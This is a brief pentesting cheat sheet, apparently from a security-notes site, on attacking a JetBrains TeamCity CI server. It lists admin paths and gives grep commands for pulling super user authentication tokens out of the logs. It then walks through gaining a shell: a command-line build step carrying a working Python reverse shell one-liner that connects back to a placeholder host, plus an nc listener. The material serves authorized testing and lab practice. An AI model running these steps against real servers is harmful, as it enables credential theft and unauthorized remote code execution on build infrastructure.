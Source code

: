 ```yaml
---
title: TeamCity Pentesting
description: TeamCity is a build management and continuous integration server from JetBrains.
tags:
    - Web
refs:
date: 2022-12-25
draft: false
---
```


## Common Directories

```txt
/admin
/admin/admin.html
```

<br />

## Find Super User Authentication Tokens

If we find a super user authentication token, we can login as super user using the token.

```sh
grep -rni 'authentication token' TeamCity/logs
grep -rni 'Super user authentication token' TeamCity/logs
grep -rni 'token' TeamCity/logs
```

<br />

## Reverse Shell

1. Login as super user.
2. Create a new project in admin dashboard.
3. Click **"Manual"** tab and fill required fields.
4. A new project is created.
5. In the project home, create a **Build Configurations**.
6. In the build configuration page, click **"Build Steps"** on the left menus.
7. Add build step.
8. Select **"Command Line"** in **Runner type**.
9. Put a Python reverse shell script in the **"Custom script"**.
    
    ```sh
    export RHOST="<local-ip>";export RPORT=<local-port>;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    ```
    
10. Start listener in local machine.
    
    ```bash
    nc -lvnp 4444
    ```
    
11. Click **"Run"** button in the build page.
12. We should get a shell in terminal.
